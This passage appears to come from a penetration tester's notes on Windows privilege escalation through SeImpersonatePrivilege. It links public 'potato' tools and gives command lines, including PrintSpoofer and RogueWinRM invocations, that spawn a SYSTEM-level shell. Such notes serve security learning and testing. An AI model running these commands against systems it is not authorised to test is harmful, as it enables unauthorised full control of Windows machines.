 Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle.
You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM.
Exploit it with [juicy-potatato](https://github.com/ohpe/juicy-potato) or [RougueWinRM](https://github.com/antonioCoco/RogueWinRM) (need winRM disabled) or [SweetPotato](https://github.com/CCob/SweetPotato) or [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).


Some commands for these tools:

1. **PrintSpoofer** (My favorite) : ```PrintSpoofer.exe -i -c powershell```
![demo](https://user-images.githubusercontent.com/81341961/148654464-e8ba8203-5e7c-4ee2-a810-4e2f951381e6.gif)
2. **RogueWinRM** : ```RogueWinRM.exe -p C:\windows\system32\cmd.exe``` or ```RogueWinRM.exe -p C:\windows\system32\cmd.exe -a "powershell"```
3. **SweetPotato** : ```SweetPotato.exe -a whoami```
4. **Juicy Potato** : Haven't practiced with this yet.
